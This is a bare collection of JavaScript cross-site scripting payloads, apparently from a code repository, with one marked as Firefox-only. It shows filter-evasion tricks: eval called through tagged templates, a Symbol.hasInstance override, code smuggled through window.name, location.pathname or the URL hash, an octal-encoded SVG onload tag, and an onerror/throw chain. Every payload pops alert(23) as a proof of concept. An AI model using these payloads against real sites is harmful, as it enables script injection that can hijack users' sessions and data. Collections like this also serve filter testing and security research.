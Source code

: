     [].every.call`eval\x28name\x29${eval}`

---

    []["filter"]["constructor"]`alert\x2823\x29```

---

    Array.prototype[Symbol.hasInstance]=eval;
    "alert\x2823\x29" instanceof [];

---

    x='javascript:alert\x2823\x29';x={x:location}=this

---

    window.name="alert(23)"
    location="xss.html"

xss.html

    eval.call`${top.name}`

---

    window.name="<img src=x onerror=alert(23)>"
    location="xss.html"

xss.html

    document.write`${top.name}`

---

    <JavaScript:"\74Svg\57OnLoad\75\141\154\145\162\164\501\51\76"/ContentEditable/AutoFocus/OnFocus=location=tagName>

---

    location="https://example.com/xss.html/.source;alert(23)?xss="

example.com

    eval.call`${location.pathname}`

---

仅 Firefox

    {onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:'',message:'alert\x2823\x29'}

---

```
example.com/xss#*/;alert(23);
```
```
throw/**/onerror=Uncaught=eval,e={lineNumber:1,columnNumber:1,fileName:'',message:'/*'+location.hash},typeof/**/InstallTrigger!='undefined'?e:e.message
```
---
